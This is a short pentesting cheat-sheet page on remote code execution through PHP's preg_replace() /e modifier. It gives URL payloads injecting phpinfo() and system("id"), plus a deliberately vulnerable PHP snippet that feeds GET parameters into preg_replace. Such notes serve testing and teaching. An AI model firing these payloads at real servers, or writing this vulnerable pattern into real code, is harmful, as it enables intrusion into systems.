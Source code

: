```yaml
---
description: >-
  The preg_replace() function in PHP returns a string or array of strings where
  all matches of a pattern or list of patterns found in the input are replaced
  with substrings.
---
```


# preg\_replace() in PHP

The /e modifier will cause the function preg\_replace() to evaluate new value as 'PHP code' before submitting the substitution. Note that`PCRE_REPLACE_EVAL` (`/e`) has been deprecated as of PHP 5.5.0.

### How to detect and validate

```bash
# You can guess that this could use a preg_replace function.  

index.php?pat=/as/&rep=As&sub=as your wish exploit

# payload - see the e modifier in pat parameter and php function in rep parameter
payload: index.php?pat=/a/e&rep=phpinfo();&sub=abc 
```

### How to RCE

```bash
payload: index.php?pat=/a/e&rep=system("id");&sub=abc 
```

### Another example

```php
<?php
$in = 'Somewhere, something incredible is waiting to be known';
echo preg_replace($_GET['replace'], $_GET['with'], $in);
?>

# Create a php file including the code above 
# Run php server
# php -S localhost:8000
# Access to the server with the following 
# http://localhost:8000/foo.php?replace=/known/e&with=system("id")
```
